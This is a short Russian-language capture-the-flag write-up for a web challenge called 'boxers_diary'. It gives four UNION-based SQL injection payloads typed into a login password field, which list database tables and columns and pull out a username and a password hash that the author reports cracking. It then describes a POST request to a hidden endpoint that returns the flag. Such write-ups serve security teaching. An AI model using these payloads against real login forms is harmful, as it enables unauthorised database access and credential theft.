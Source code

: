 
# Решение | boxers_diary | Medium | Web

В форме регистрации написано не больше 25 символов - давайте в пароле сделаем больше

в Login форме в пароле пишем: (важно использовать два %%)

1) 12345678901231111234567890123111' UNION SELECT concat(table_name) FROM information_schema.tables WHERE table_name like '%%users%%' --  //получили таблицу
2) 12345678901231111234567890123111' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' AND column_name like '%%user%%'--//можем посмотреть колонки
3) 12345678901231111234567890123111' UNION SELECT username FROM users -- ////////Alex - пользователь
4) 12345678901231111234567890123111' UNION SELECT password FROM users -- ///////b71136604cdf2dd0ad05d130492af6a0 - хэш для пароля - легко сломать - пароль = SuperSecret!
5) переходим на страницу пользователя и видм вкладку 'Удалить боксера' - если посмотреть комментарии к js можно заметить ручку /serverinf0 отправляем get запрос - ничего не получаем, отправляем post - получаем флаг